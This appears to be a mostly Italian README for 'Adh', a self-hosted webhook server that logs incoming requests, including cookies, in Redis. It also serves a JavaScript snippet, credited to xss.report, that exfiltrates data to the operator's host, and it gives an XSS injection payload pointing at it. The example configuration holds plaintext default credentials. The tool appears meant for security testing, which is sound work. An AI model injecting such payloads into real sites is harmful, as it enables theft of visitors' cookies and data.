

# Adh (Advanced Detailed Hook)

<p align="center">
  
</p>

Questo progetto è nato dall'esigenza di avere un servizio webhook personale e completamente personalizzabile da distribuire su un VPS, senza affidarsi a strumenti esterni come webhook.site, localtunnel, ngrok o servizi simili.
Offre flessibilità per un'ampia gamma di casi d'uso, come la registrazione delle richieste, l'ispezione del payload o la raccolta di dati, rendendolo uno strumento versatile per gli sviluppatori e i professionisti della sicurezza informatica.

### 🧩 Panoramica

Il nucleo di questo progetto è un semplice server webhook che ascolta le richieste HTTP in arrivo, registra le informazioni pertinenti e memorizza i dati delle richieste in Redis. È costruito con Go per il backend e utilizza Redis per l'archiviazione. Il progetto vuole essere leggero, flessibile e semplice da configurare, ma con un margine di espansione (come l'aggiunta di una dashboard).



### 🚀 Caratteristiche

- Registrazione dei dati**: Registra le richieste, comprese le intestazioni, i cookie, il contenuto del corpo e l'agente utente.
- Integrazione con Redis**: Memorizza i dati delle richieste in arrivo in Redis, rendendoli facili da scalare o da gestire.
- Script di exploit XSS**: Serve un semplice script di exploit per gli attacchi XSS (rubato da xss.report).
- **Elevata personalizzazione**: Personalizzate il server per adattarlo alle vostre esigenze.
- Supporto per la barra di ricerca**: Aggiungere una barra di ricerca per le richieste con sintassi ***RedisSearch***.

### 📊 Dashboard

Di seguito sono riportate alcune schermate della dashboard:

|  |  |
|-------------------------------------------|-------------------------------------------|
|  |  |


### ⚙️ Installazione

Per iniziare a utilizzare l'Adh, seguire i passaggi indicati di seguito:

#### Prerequisiti

- Una macchina esposta a Internet (questo strumento non è una soluzione di tunnelling come ngrok o Localtunnel).
- Docker e Docker Compose installati sulla macchina.

#### Clonare il repository

```bash
git clone https://github.com/akiidjk/adh.git
cd adh
```

####  Impostare i contenitori Docker

1. Modify your environment variables in the `.env` file to suit your configuration based on the provided example.

```
PORT=8000
ADDR=0.0.0.0
LOG_LEVEL=info
REDIS_ADDR=redis
REDIS_PORT=6379
REDIS_URL=redis://redis:6379
USER_ID=0
USER_NAME=akiidjk
USER_PASSWORD=akiidjk
SECRET_KEY=polpetta
```

2. Now you can build and start your containers with:

```bash
docker-compose up --build -d
```

#### Accedere al webhook

Once the containers are running, you can access your webhook on:

```
http://localhost:8000
```

The server will now be accepting requests on the specified port (8000 by default).

### 🛠 Configurazione

The following environment variables are available for customization:

- **REDIS_ADDR**: Address of the Redis server. Defaults to `localhost` or `redis` if using Docker.
- **REDIS_PORT**: Port for the Redis server. Defaults to `6379`.
- **REDIS_PASS**: Redis password (if needed).
- **LOG_LEVEL**: Log level for the application. Options are `debug`, `info`, `warn`, `error`. Defaults to `info`.
- **REDIS_URL**: URL of the Redis server. Defaults to `redis://localhost:6379`.
- **USER_ID**: User ID for the application. Defaults to `admin`.
- **USER_NAME**: User name for the application. Defaults to `admin`.
- **USER_PASS**: User password for the application. Defaults to `Admin`.
- **SECRET_KEY**: Secret key for the application. Defaults to `secret`.

### 🔍 Controllo dello stato di salute

A background goroutine regularly pings Redis to ensure availability, reporting status via an internal channel. The check interval is configurable.

### 📁 Archiviazione dei registri

The application saves all logs to a folder on your host machine. The logs are stored in the `./adh-webhook/logs` directory on your host system, ensuring that the logs persist even when the container is restarted or destroyed. This is done via Docker bind mounts, which map the `./adh-webhook/logs` folder on your local machine to `/var/log/webhook` in the container.

### 🧪  Esempio di richiesta

Try sending a POST request:

```bash
curl -X POST http://localhost:8000 -H "Content-Type: application/json" -d '{"key":"value"}'
```

### 🐛  Script XSS

Disponibile all'endpoint /_, Adh serve uno snippet JavaScript (ispirato a xss.report) che esfiltri i dati tramite una richiesta al vostro server.

Esempio di payload:

```js
<script src="http://localhost:8000/_"></script>
```

Cambiate il dominio nello script se eseguite Adh su un host diverso.

### 📌 To-Do

- [x] **Dashboard**: The current project lacks a UI dashboard to visualize requests and data. This will be added in the future.
- [x] **Authentication**: Implement an authentication mechanism to restrict access to the webhook dashboard.
- [x] Fix http problem with Docker
- [x] Implement rate limiting to prevent abuse
- [x] Add logout button
- [x] Add search bar for requests
- [x] Add clear button

### 🤝 Contribuire

Richieste di pull, problemi e fork sono i benvenuti! Se avete un'idea o una correzione, sentitevi liberi di contribuire.

### 📝 Licenza 

Licenza MIT - vedere il file [LICENSE](LICENSE) per i dettagli.

### 📎 Conclusione

Adh è una soluzione autonoma, veloce e flessibile per gestire e ispezionare le richieste HTTP in tempo reale. Che si tratti di debug, raccolta di dati o simulazione di attacchi, Adh è pronto per essere adattato al vostro flusso di lavoro.
